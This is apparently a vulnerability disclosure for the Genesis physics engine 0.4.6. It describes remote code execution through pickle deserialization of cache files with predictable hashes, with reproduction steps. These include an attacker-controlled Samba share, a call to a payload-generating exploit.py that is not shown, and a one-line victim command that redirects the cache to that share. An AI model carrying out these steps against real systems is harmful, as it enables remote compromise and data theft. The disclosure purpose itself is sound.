


# `Genesis` - Version `0.4.6` / Remote Code Execution (RCE) via Insecure Deserialization based on sink `pickle.load` and Global Cache Poisoning via Predictable Asset Hashing (SHA256)

* https://pypi.org/project/genesis-world/
* https://github.com/Genesis-Embodied-AI/Genesis
* https://genesis-embodied-ai.github.io/

## Introduction

The `Genesis` engine utilizes a cache system based on `SHA256` hashes of input data (mesh vertices and faces) to avoid repeating costly remeshing operations (.rm). Since the hashing algorithm is deterministic and public, **an attacker can pre-calculate the cache filename (`SHA256`)** for a specific mesh and place a malicious file in the global cache directory.

**Below are one (1) way to reproduce RCE in `Genesis` using an `SMB` share controlled by an attacker, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

## Vulnerability description

The `genesis-world` physics engine exhibits a systemic insecure deserialization architecture. The framework utilizes a global, shared cache directory for expensive operations such as remeshing (`.rm`), tetrahedralization (`.tet`), and particle sampling (`.ptc`). By design, the system trusts any file found in these directories if the filename matches a deterministic SHA256 hash of the input asset.

### The vulnerable code in `genesis/engine/mesh.py`:

```python
rm_file_path = mu.get_remesh_path(self.verts, self.faces, edge_len_abs, edge_len_ratio, fix)

is_cached_loaded = False
if os.path.exists(rm_file_path):
    gs.logger.debug("Remeshed file (`.rm`) found in cache.")
    try:
        with open(rm_file_path, "rb") as file:
            verts, faces = pkl.load(file) # <-- VULNERABLE SINK (Insecure Deserialization)
        is_cached_loaded = True
```

## Technical Impact Analysis

### Project Purpose & Context

`Genesis` is a powerful physics engine designed for robotics, AI, and large-scale simulation. It is widely used in research environments to train embodied AI agents. The project handles complex geometry processing which requires high-performance optimizations, such as the caching mechanism identified as the primary attack vector.

### Platform & Deployment Environment

The engine is primarily deployed on high-performance workstations, shared HPC (High-Performance Computing) clusters (e.g., Slurm environments), and AI training pipelines. It is often used in collaborative research where multiple users share data and computational resources.

### Comprehensive Risk Assessment

The vulnerability represents a **Critical** risk as it allows for Remote Code Execution (RCE) without direct user interaction or local file write requirements. The deterministic nature of asset hashing combined with the ability to redirect cache paths via environment variables (`GS_CACHE_FILE_PATH`) enables an attacker to move laterally across shared environments or compromise systems remotely via SMB redirection.


## Attack Scenario

The attack exploits the trust boundary between asset loading and cache retrieval. An attacker can provide a victim with a seemingly harmless 3D mesh (e.g., an `.obj` file). When the victim's script processes this mesh, the `Genesis` engine calculates a predictable SHA256 hash and looks for a corresponding `.rm` file in the cache directory. If the attacker has pre-positioned a malicious pickle payload or redirected the cache path to an attacker-controlled SMB share, the engine will deserialize and execute the malicious code.

### Who wants to exploit a particular vulnerability?

1. **Malicious Researchers**: To steal simulation data or computational resources from other users on shared HPC nodes.
2. **Adversarial AI Actors**: To poison training datasets or hijack the execution environment of automated simulation pipelines.

### For what gain?

The primary gain is full Remote Code Execution (RCE) on the victim machine. This allows for data theft (simulation results, intellectual property), lateral movement within the network (HPC clusters), and persistence in AI research infrastructure.

### In what way?

By exploiting the predictable asset hashing (`SHA256`) and the lack of signature verification in the caching mechanism. This allows for **Global Cache Poisoning** and **UNC Cache Redirection**.


# Reproduction steps

## On the Raspberry (attacker) - IP 192.168.1.90

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

### Shared Resource Configuration (SMB):

1. **Install Samba**: `sudo apt update && sudo apt install samba samba-common-bin -y`
2. **Prepare the attack directory**:

```bash
mkdir ~/lab_attack
chmod 755 /home/kw0  # Allows Samba to access the HOME
chmod -R 777 ~/lab_attack
```

1. **Configure Samba**: Add to the end of `/etc/samba/smb.conf`:

```ini
[lab_share]
path = /home/kw0/lab_attack
read only = no
guest ok = yes
```

**Payload Generation on the Raspberry**:

Run the specialized `exploit.py` script to generate the `.rm` file directly in the shared path:

```bash
python exploit.py
```



## On Windows (victim) - IP 192.168.1.88

```
(.venv) PS L:\Deserializer\PYPI-genesis-world> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
(.venv) PS L:\Deserializer\PYPI-genesis-world>
```

1. Create a `.venv`, activate it, and install the latest updated version (`0.4.6`) of `Genesis` using `pip install genesis-world`.
2. Enable the SMB share: `net use Z: \\192.168.1.90\lab_share /persistent:no`
3. Generate a predictable `SHA256` cube: `python cube.py`
4. And then launch the service to trigger the RCE:

```
python -c "import os; os.environ['GS_CACHE_FILE_PATH']=r'\\192.168.1.90\lab_share'; import genesis as gs; gs.init(backend=gs.cpu); gs.Mesh.from_morph_surface(gs.morphs.Mesh(file='cube.obj'))[0].remesh(); print('\n[+] Proceso finalizado.')"
```

